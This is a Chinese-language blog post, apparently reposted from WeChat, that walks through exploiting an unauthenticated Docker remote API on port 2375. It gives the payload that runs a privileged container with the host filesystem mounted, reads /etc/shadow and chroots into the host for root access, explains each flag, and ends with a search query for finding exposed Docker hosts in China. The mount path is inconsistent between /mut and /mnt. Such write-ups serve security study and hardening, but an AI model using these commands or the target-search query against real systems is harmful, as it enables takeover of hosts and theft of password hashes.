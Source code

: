 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/X9AmCBmb0dW0mS06ZTKuzg)

**漏洞来源：**

https://twitter.com/ptswarm/status/1338477426276511749/photo/1

```
payload: 
docker -H x.x.x.x:2375 run --rm -it --privileged --net=host -v /:/mut alpine
File Access: cat /mnt/etc/shadow 
RCE: chroot /mnt
```

**原理：**

Docker 提供了远程管理接口。

Docker Daemon 作为守护进程，运行在后台，可以执行发送到管理接口上的 Docker 命令

端口 2375：未加密的 docker socket, 远程 root 无密码访问主机

**复现环境：**

kali

centos

各安装 docker

安装 centos 因为现装的，啥环境都没  

docker 安装：
==========

```
sudo apt -y install curl gnupg2 apt-transport-https software-properties-common ca-certificates
curl -fsSL https://download.docker.com/linux/debian/gpg | sudo apt-key add -
echo "deb [arch=amd64] https://download.docker.com/linux/debian buster stable" | sudo tee  /etc/apt/sources.list.d/docker.list
apt update
apt install docker-ce docker-ce-cli containerd.io
docker version
```

docekr 配置文件：
------------

```
/usr/lib/systemd/system/docker.service
```

开启远程访问连接的 api：
--------------

![](https://mmbiz.qpic.cn/mmbiz_png/8v8SETPnuWlftfZmfeLf7SjK3icbWAjT2oPhdw5Hpv32UmJicSwWIegouRTz4Lx1KBecuZYh65BL7A5shCicA9h0g/640?wx_fmt=png)

```
systemctl daemon-reload
systemctl restart docker
```

验证端口是否开启：
---------

```
netstat -anlp|grep 2375
```

![](https://mmbiz.qpic.cn/mmbiz_png/8v8SETPnuWlftfZmfeLf7SjK3icbWAjT2KxkN3OSHWYkEOP3UOwhicAKkkDrmWibiaZjic5YCgU9ibqjib1wbp0OUiazkw/640?wx_fmt=png)

**nmap 扫描：**  

![](https://mmbiz.qpic.cn/mmbiz_png/8v8SETPnuWlftfZmfeLf7SjK3icbWAjT2guLNbIxa0UIH1icFJU3AbHW7rPMMphGW9klWuuUQHp1uGuVd5Y7jIcw/640?wx_fmt=png)

**kali 执行：**

kail 已经安装 docker 了这就不多说了快下班了~

```
docker -H 192.168.5.135:2375 run --rm -it --privileged --net=host -v /:/mut alpine
```

```
run               =运行
--rm              =用于foreground模式的容器
-it               =指示Docker分配一个与容器的stdin连接的伪TTY；在容器中创建一个交互式bash shell
--privileged      =在启动的容器，可以看到很多host上的设备，并且可以执行mount
--net=host        =加了net=host后会使得创建的容器进入命令行好名称显示为主机的名称而不是一串id
-v                =把宿主机的目录挂载到容器中
alpine            =镜像
```

**结果总结：**

环境一下午复现 2 分钟

![](https://mmbiz.qpic.cn/mmbiz_png/8v8SETPnuWlftfZmfeLf7SjK3icbWAjT2IgUOa6Nm2mxrNmKJPDdXpk8c2gmd8bkPP7XVHOE5scADaUXNkQEUJQ/640?wx_fmt=png)

**实战语法：**

```
port="2375" && protocol == docker && country="CN"
```